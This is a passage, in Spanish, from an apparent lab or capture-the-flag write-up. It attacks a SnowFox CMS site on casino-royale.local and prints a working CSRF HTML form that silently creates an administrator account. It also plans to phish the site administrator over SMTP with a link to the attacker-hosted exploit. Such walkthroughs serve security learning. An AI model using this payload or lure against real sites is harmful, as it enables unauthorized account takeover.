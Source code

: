 Ya con el archivo /etc/hosts modificado correctamente accedemos a la seccion que mencionaba en la descripcion en esta podemos ver un sitio completamente normal 


![[Pasted image 20240402164413.png]]


Viendo mejor el sitio, podemos notar que está hecho con SnowFox CMS. Utilizando SearchSploit, identificamos que es vulnerable a CSRF y encontramos un exploit disponible. Con esta vulnerabilidad, podemos aprovecharnos para crear un administrador de forma indebida


![[Pasted image 20240402164823.png]]

El exploit en cuestion es este en el cual solo tendremos cambiar email, username, password y confirm password por lo que nosotros queramos

```html
<html>
  <body>
    <form action="http://casino-royale.local/vip-client-portfolios/?uri=admin/accounts/create" method="POST">
      <input type="hidden" name="emailAddress" value="email@email.com" />
      <input type="hidden" name="verifiedEmail" value="verified" />
      <input type="hidden" name="username" value="username" />
      <input type="hidden" name="newPassword" value="password" />
      <input type="hidden" name="confirmPassword" value="password" />
      <input type="hidden" name="userGroups[]" value="34" />
      <input type="hidden" name="userGroups[]" value="33" />
      <input type="hidden" name="memo" value="CSRFmemo" />
      <input type="hidden" name="status" value="1" />
      <input type="hidden" name="formAction" value="submit" />
      <input type="submit" value="Submit form" />
    </form>
  </body>
</html>

```



Pero ahora tenemos que verificar si existe alguna manera en la que un administrador pueda ejecutar el exploit y crear una cuenta como administrador. En la sección del blog del sitio se menciona algo sobre la posibilidad de enviar un correo electrónico al administrador del sitio (Valenka), quien lo revisa constantemente. Sin embargo, como asunto del correo, es necesario utilizar necesariamente el nombre de un cliente.


![[Pasted image 20240402190908.png]]

Entonces fue cuando recorde que esta corriendo un servicio smtp en el puerto 25 el cual lo podemos usar para mandarle un correo al administrador y en este incluir un enlace que lo rediriga a nuestro exploit y asi hacer que este cree la cuenta como administrador pero primero desde nuestra maquina atacante tendremos levantar un servidor con python donde este alojado nuestro exploit asi que adecuamos perfectamente nuestro exploit con nuestros datos y levantamos el servidor  
